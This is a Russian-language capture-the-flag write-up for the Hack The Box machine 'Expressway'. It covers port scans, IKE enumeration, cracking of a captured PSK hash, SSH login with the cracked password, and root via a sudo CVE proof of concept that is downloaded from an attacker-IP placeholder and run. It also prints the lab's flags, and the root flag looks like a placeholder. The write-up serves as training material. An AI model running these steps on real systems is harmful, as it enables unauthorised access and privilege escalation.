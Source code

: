 # 📝 Write-up: Expressway (Hack The Box)

Difficulty: EasyPlatform: Hack The BoxTarget IP (Lab): 10.10.11.87Link: Expressway @ HTB  

# 🎯 Summary
Expressway — легкая Linux-машина на Hack The Box. Основные этапы:  

* * Первичный доступ: Эксплуатация уязвимости IKE VPN (PSK-аутентификация).  
* * Горизонтальная эскалация: Брутфорс PSK для получения учетных данных пользователя ike.  
* * Эскалация до root: Эксплуатация уязвимой версии sudo (CVE-2025-52352).


🔒 Prerequisites

Это write-up для учебной среды Hack The Box. Не используйте против реальных систем!  
Убедитесь, что IP 10.10.11.87 доступен в вашей лабораторной сети.  
Замените <YOUR_IP> на IP вашей атакующей машины, если потребуется обратный шелл.


🔍 Reconnaissance
Сканирование портов
Запустил сканирование с помощью nmap для обнаружения открытых портов и сервисов:  
nmap -sC -sV -Pn 10.10.11.87

Результат:  
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

UDP-сканирование:  
sudo nmap -sV -sU 10.10.11.87

Результат:  
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open          tftp      Netkit tftpd or atftpd
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike


🕵️ Enumeration
IKE VPN (порт 500/udp)
Обнаружен IKE VPN на порту 500/udp. Проверил с помощью ike-scan:  
ike-scan -M 10.10.11.87

Результат:  
10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=cafb0b8cafb3ba5a)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Нашел PSK-хэш и сохранил его в файл expressway_hash.txt:  
9c261863d58af7ab93251af8ad92210554240953dd0f8bafd663315d7c29a27a4a847d8a93c607ee8294930d6b4ae0091d423b12e8c22c0a0d9d6e76c0ec980f36824a26ac9d5d46d80ab1d5c6570059e33e748db9da5d1bf11979e7c74d4d4560d6dafa39d6dc9c60f677cd646175d91995bfa17d755668cb2051267464c4b2:8700f898db0322ac21f5bfeb912134c5eafab352072f74f2b651f465840dfdab2dc2de63f08b3ff67776398382fbb9d5701ff967a99c0ad4e3d6844b5a18b7ebb3dec6f79069cd46f7a6a8c70c56924b90233e97e3598cfe149f3aa4972f466892e0220358d4a0caddebfa9b6d9fd51716cdf36d22b65abcc24dbea351ae5956:df853e76cc0e1a92:eb268ade151021e0:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:cf34dd472d6b434c73d6e0ed4f881b2a8bb3415e:ff1f67ec60cbe57ccd257bfcb681f7d381eb2a1476816501de70b66d08079641:e15c87caec0c2b87336238542e86a691e121d7ac


🛠️ Exploitation
Брутфорс PSK
Использовал psk-crack с словарем rockyou.txt для подбора PSK:  
psk-crack -d /usr/share/wordlists/rockyou.txt expressway_hash.txt

Результат:  
key "freakingrockstarontheroad" matches SHA1 hash e15c87caec0c2b87336238542e86a691e121d7ac
Время: 11.176 секунд (719871.55 итераций/сек)

Доступ по SSH
Использовал полученный пароль для подключения под пользователем ike:  
ssh ike@10.10.11.87
Password: freakingrockstarontheroad

Вывод:  
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77


🏴 User Flag
Прочитал флаг user.txt:  
cat user.txt
740745a467294d55f8189932b4a1865d


🔝 Privilege Escalation
Проверка системы
Проверил версию ОС:  
uname -a
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64 GNU/Linux

Проверил версию sudo:  
sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17

Эксплуатация CVE-2025-52352
Нашел уязвимость в версии sudo 1.9.17: CVE-2025-52352.  
Скачал и выполнил PoC:  
wget http://<YOUR_IP>:8000/cve-2025-52352.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh

Получил root-доступ и прочитал root.txt:  
cat /root/root.txt
b7a4b7a4b7a4b7a4b7a4b7a4b7a4b7a4


📌 Conclusion
Expressway — отличная машина для изучения эксплуатации IKE VPN и уязвимостей sudo. Основные уроки:  

Всегда проверяйте UDP-порты на наличие VPN-сервисов.  
Используйте словари для брутфорса PSK.  
Проверяйте версии ПО на наличие известных CVE.

Спасибо за чтение! Надеюсь, этот write-up поможет в освоении пентеста.